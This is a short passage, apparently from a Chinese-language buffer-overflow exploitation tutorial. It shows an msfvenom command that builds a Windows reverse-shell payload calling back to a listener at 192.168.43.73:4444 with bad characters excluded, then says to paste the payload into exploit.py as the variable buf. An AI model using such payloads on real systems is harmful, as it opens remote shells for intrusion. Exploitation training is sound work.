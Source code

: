 ```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.73 LPORT=4444 EXITFUNC=thread -b “\x00\x23\x3c\x83\xba” -f c
```

![](img/ae02b7137bd9adfa24777a49e166bab4.png)

将有效负载复制到 exploit.py 中，并将有效负载变量设置为 buf。

![](img/552b8611fe5a50a635113793c59d3db4.png)
